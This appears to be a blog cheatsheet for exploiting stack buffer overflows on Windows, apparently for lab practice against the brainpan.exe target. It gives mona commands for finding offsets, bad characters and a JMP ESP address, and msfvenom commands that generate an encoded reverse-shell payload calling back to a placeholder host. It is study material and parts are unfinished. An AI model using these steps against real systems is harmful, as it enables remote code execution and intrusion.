 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```

### Take control of EIP
First, lets use some [skeletons](https://github.com/acc3ssp0int-official/buffer-overflow-skeleton-scripts) to overwrite the EIP  

Then, let's generate a pattern to identify the offset  
`Todo: complete msfpatterncreate command and msfpatternfind`


### After getting control of EIP
Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`

Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`



Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
> msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
>msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`